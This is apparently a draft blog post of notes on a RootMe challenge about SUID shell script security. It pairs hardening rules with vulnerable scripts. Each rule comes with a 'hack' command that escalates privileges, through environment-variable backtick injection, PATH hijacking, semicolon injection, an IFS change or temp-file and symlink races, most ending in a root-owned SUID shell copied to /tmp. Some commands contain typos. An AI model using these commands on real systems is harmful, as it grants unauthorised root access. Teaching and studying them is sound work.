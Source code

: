 +++
categories = ["Development", "Programming", "Hacking"]
date = "2015-11-20T18:50:35+01:00"
description = ""
draft = true
image = "/img/about-bg.jpg"
tags = ["programming", "rootme", "challenges", "hack", "crack"]
title = "RootMe Challenges"

+++

# App Script

## ELF32 - System 1 - SUID scripts vulnerabilities

## Resources

* ### [Danger of SUID Shell Scripts](http://repository.root-me.org/Administration/Unix/EN%20-%20Dangers%20of%20SUID%20Shell%20Scripts.pdf)

## 1. Never use C-shell for SUID scipts

- Script:
```
$ ls change-pass
-rwsr-x---  1 root helpdesk 37 Feb 26 16:35 change-pass

$ cat change-pass
#!/bin/csh -b
set user = $1
passwd $user
```

- Hack:
```
$ env TERM='`cp /bin/sh /tmp/sh;chown root /tmp/sh;chmod 4755/tmp/sh`' change-pass
```

## 2. Always manually set the PATH and use absolute path names.

- Script:
```
$ cat change-pass
#!/bin/ksh
user=$1
passwd $user
```

- Hack:
```
$ export PATH='/tmp'
$ echo "cp /bin/sh /tmp/sh;chown root /tmp/sh;chmod 4755/tmp/sh" > /tmp/passwd
$ ./change-pass
```

## 3. Understand how the programs in your script work, escpecially how they handle arguments

- Script:
```
$ cat change-pass
#!/bin/ksh
PATH='/bin:/usr/bin'
user=$1
rm /tmp/.user
echo "$user" > /tmp/.user
isroot='/usr/bin/grep -c root /tmp/.user'
[ "$isroot" -gt 0 ] && echo "You Can't change root's password!" && exit
/usr/bin/passwd $user
```

- Hack:
If the user runs the program and doesn't specify an argument, the program will run the passwd command without any arguments. It default so to the current user, the problem is that in a root-owned SUID script, the current user is always root.

- Script:
```
$ cat change-pass
$!/bin/ksh
PATH='/bin:/usr/bin'
user=$1
[ -z $user ] && echo "Usage: change-pass username" && exit
rm /tmp/.user
echo "$user" > /tmp/.user
isroot='/usr/bin/grep -c root /tmp/.user'
[ "$isroot" -gt 0] && echo "You Can't change root's password!" && exit
/usr/bin/passwd $user
```

- Hack:
A hacker could write a program that will automatically watch for activity and replace the /tmp/.user file between the ```rm``` and ```echo``` by an empty one. It could not be overwritten and so run as root.

## 4. Don't use temporary files, don't put them in a publicity writable area

- Script:
```
$ cat change-pass
#!/bin/ksh
PATH='/bin:/usr/bin'
user=$1
[ -z $user ] && echo "Usage: change-pass username" && exit
[ "$user" = root ] && echo "You can't change root's password!" && exit
/usr/bin/passwd $user
```

- Hack (semi-colon trick):
```
$ change-pass "user;cp /bin/sh /tmp/sh;chown root /tmp/sh;chmod 4755 /tmp/sh"
```

## 5. Distrust and check all user input, and strip out any meta-characters

- Script:
```
$ cat change-pass
#!/bin/ksh
PATH='/bin:/usr/bin'
user=${1##*[ \\$/;()|\>\<&    ]}
[ -z $user ] && echo "Usage: change-pass username" && exit
[ "$user" = root ] && "You can't change root's password!" && exit
/usr/bin/passwd $user
```

- Hack (Internal Filed Separator (IFS) vulnerability):
```
$ export IFS='/'
```

## 6. Always manually set IFS

- Script:
```
$ cat change-pass
#!/bin/ksh
PATH='/bin:/usr/bin'
IFS=' '
user=${1##*[ \\$/;()|\>\<&    ]}
[ -z $user ] && echo "Usage: change-pass username" && exit
[ "$user" = root ] && "You can't change root's password!" && exit
/usr/bin/passwd $user
```

- Hack:
```
// Create a link to the SUID script:
$ cd /tmp
ln -s change-pass rootme

// Running the link, quickly replace it with another file:
$ ./rootmer &
& rm rootme && \
  echo "cp /bin/sh /tmp/sh;chown root /tmp/sh;chmod 4755 /tmp/sh" \
    >> rootme
```

## 7. Don't use SUID shell scripts

There are the more secure options (even more):
  - a wrapper program written in C
  - a Perl script
  - a program like sudo


* ### [SUID Privileged Programs](http://repository.root-me.org/Administration/Unix/EN%20-%20SUID%20Privileged%20Programs.pdf)
